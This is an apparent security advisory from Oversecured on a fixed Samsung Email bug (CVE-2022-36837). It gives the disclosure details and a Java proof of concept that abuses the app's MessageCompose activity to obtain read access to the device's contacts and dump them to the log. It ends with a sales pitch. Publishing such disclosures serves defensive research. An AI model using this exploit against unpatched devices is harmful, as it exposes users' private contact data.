

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Samsung Email</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.email.provider</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.04.15</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.08.02</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-36837">CVE-2022-36837</a> (SVE-2022-0929)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$1850</td>
    </tr>
</table>

# Description

Oversecured report:


Oversecured found that the content controlled by the attacker via the `onNewIntent()` method gets into `Activity.setResult()`. This causes arbitrary content provider access permissions to be passed to any third-party apps installed on the same device.

**Proof of Concept**

```java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    Intent i = new Intent();
    i.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
    i.setData(ContactsContract.CommonDataKinds.Phone.CONTENT_URI);
    i.setClassName("com.samsung.android.email.provider", "com.samsung.android.email.composer.activity.MessageCompose");
    startActivityForResult(i, 0);
    new Handler().postDelayed(() -> startActivityForResult(i, 0), 5000);
}

protected void onActivityResult(int requestCode, int resultCode, Intent data) {
    super.onActivityResult(requestCode, resultCode, data);

    dump(data.getData());
}

public void dump(Uri uri) {
    Cursor cursor = getContentResolver().query(uri, null, null, null, null);
    if (cursor.moveToFirst()) {
        do {
            StringBuilder sb = new StringBuilder();
            for (int i = 0; i < cursor.getColumnCount(); i++) {
                if (sb.length() > 0) {
                    sb.append(", ");
                }
                sb.append(cursor.getColumnName(i) + " = " + cursor.getString(i));
            }
            Log.d("evil", sb.toString());
        } while (cursor.moveToNext());
    }
}
```

## References

- [Oversecured Blog. Gaining access to arbitrary* Content Providers](https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers/)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.